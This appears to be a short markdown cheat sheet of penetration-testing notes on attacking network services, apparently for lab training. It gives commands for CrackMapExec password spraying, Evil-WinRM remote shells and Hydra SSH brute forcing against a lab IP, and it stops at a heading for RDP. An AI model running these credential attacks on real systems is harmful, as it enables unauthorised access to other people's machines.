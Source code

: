 # Network Services

## CrackMapExec

Can be used for WinRM, SMB, LDAP, MSSQL, and others

Installing
```
sudo apt-get -y install crackmapexec
```

Help with specific protocol
```
crackmapexec smb -h
```

Usage
```
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

## Evil-WinRM

Used for WinRM specifically

Installing
```
sudo gem install evil-winrm
```

Usage
```
evil-winrm -i <target-IP> -u <username> -p <password>
```

```
evil-winrm -i 10.129.42.197 -u user -p password
```

If successful, it uses a powershell connection

## Hydra - SSH

Used to brute force SSH

```
hydra -L user.list -P password.list ssh://10.129.42.197
```

## Hydra - RDP

Used to brute force RDP
